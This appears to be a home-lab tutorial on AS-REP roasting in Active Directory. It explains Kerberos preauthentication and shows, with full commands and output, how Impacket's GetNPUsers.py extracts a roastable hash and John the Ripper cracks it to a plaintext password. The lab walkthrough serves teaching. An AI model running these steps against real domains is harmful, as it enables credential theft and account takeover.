


# 🔐ASREProast


**AS-REP Roasting** is a Kerberos-based attack in Active Directory that targets user accounts with **"Do not require Kerberos preauthentication"** enabled. It's a way for attackers to obtain password hashes without needing to authenticate first — ideal for stealthy offline password cracking.

---

##  What is Preauthentication in Kerberos?

Kerberos typically requires **preauthentication** to prevent offline attacks. A user proves their identity by encrypting a timestamp with their password-derived key. The Domain Controller (KDC) verifies it before issuing a TGT (Ticket Granting Ticket).

If **preauthentication is disabled**, the KDC just gives out an KRB-AS-REP response (containing a blob encrypted with the user's password hash) without verifying identity — this opens a door.

##  How Normal Kerberos Authentication Works

This is a helpful blog explaining how standard Kerberos authentication functions:

[Kerberos Authentication](https://software.intel.com/sites/manageability/AMT_Implementation_and_Reference_Guide/default.htm?turl=WordDocuments%2Fintroductiontokerberosauthentication.htm)



•   **Step 1:** The user logs on to the workstation and requests service on the host. The workstation sends a message to the Authorization Server requesting a ticket granting ticket (TGT).

•   **Step 2:** The Authorization Server verifies the user’s access rights in the user database and creates a TGT and session key. The Authorization Sever encrypts the results using a key derived from the user’s password and sends a message back to the user workstation.

The workstation prompts the user for a password and uses the password to decrypt the incoming message. When decryption succeeds, the user will be able to use the TGT to request a service ticket.

•   **Step 3:** When the user wants access to a service, the workstation client application sends a request to the Ticket Granting Service containing the client name, realm name and a timestamp. The user proves his identity by sending an authenticator encrypted with the session key received in Step 2.

•   **Step 4:** The TGS decrypts the ticket and authenticator, verifies the request, and creates a ticket for the requested server. The ticket contains the client name and optionally the client IP address. It also contains the realm name and ticket lifespan. The TGS returns the ticket to the user workstation. The returned message contains two copies of a server session key – one encrypted with the client password, and one encrypted by the service password.

•   **Step 5:** The client application now sends a service request to the server containing the ticket received in Step 4 and an authenticator. The service authenticates the request by decrypting the session key. The server verifies that the ticket and authenticator match, and then grants access to the service. This step as described does not include the authorization performed by the Intel AMT device, as described later.

•   **Step 6:** If mutual authentication is required, then the server will reply with a server authentication message.

---

## Setting Up Misconfiguration for AS-REP Roasting

To prepare a system for AS-REP roasting (for testing purposes), we need to introduce a specific misconfiguration.

Let’s assume we have a user account named **Mark James**. We make this account vulnerable by modifying one setting:

 Navigate to the user properties → **Account** tab  
 Check the box labeled **"Do not require Kerberos preauthentication"**

This is how it looks:



---

##  Attacking ASREP

Let’s suppose we have the following list of users in an Active Directory environment. These users can be enumerated using tools like `netexec`, PowerShell scripts, or other enumeration techniques.

```

┌──(kali㉿kali)-\[\~/Home-lab/Kerbrose/asrep-roasting]
└─\$ cat user.txt
Administrator
Guest
krbtgt
jack
hwilliam
jcharles
mjames
Haseeb
Radeel
Abdullah
sql\_user

````

---

###  Extracting AS-REP Roastable Hashes

We use **Impacket’s `GetNPUsers.py`** to request AS-REP responses from users who have `DONT_REQ_PREAUTH` set:

```bash
GetNPUsers.py -usersfile user.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 192.168.129.140 'furious.local/'
````


```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/asrep-roasting]
└─$ GetNPUsers.py -usersfile user.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 192.168.129.140 'furious.local/'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/home/kali/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User jack doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User hwilliam doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jcharles doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$mjames@FURIOUS.LOCAL:bf278d3b33c1a826d4338707aca0509f$d04188e801023aa9d3cb966a9579d8f7127d499f7684200bd480de39cad0685afe1086e5d39611b28187d9ad8bc8028b379de5d49144b288da14a2dc91654fa8e49ca34055a5f21abdbd217df32bf18977e6840f35e2fa4b5b7faece1222cb3b2cb1c6f03fc9568224418b10642b9a5515ec3b0f68d91bc32c860d337a3341e1db3f88e69d5385ee990d88e6e30cf17c2cd4f9b2e37a28cd086ca9daa064904dd26de5cbacf763172bd8ff2b623715a3c64fffb715c2ee84dde0d999fa019b0cc91ab9ce0037c388deb32735bbf383cc97f22f13feb3e7b6ab5687291138dfa62ab2707301914b1193fc2e7d7247
[-] User Haseeb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Radeel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Abdullah doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sql_user doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                           
```

In this case, only **mjames** was vulnerable, and we obtained an AS-REP hash for that user.

---

###  Cracking the AS-REP Hash

We use **John the Ripper** with the `rockyou.txt` wordlist to crack the hash:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hash.txt
```

```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/asrep-roasting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      ($krb5asrep$23$mjames@FURIOUS.LOCAL)     
1g 0:00:00:00 DONE (2025-05-06 10:35) 20.00g/s 675840p/s 675840c/s 675840C/s katten..redlips
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The password for **[mjames@FURIOUS.LOCAL](mailto:mjames@FURIOUS.LOCAL)** was successfully cracked: `Password123`.

---
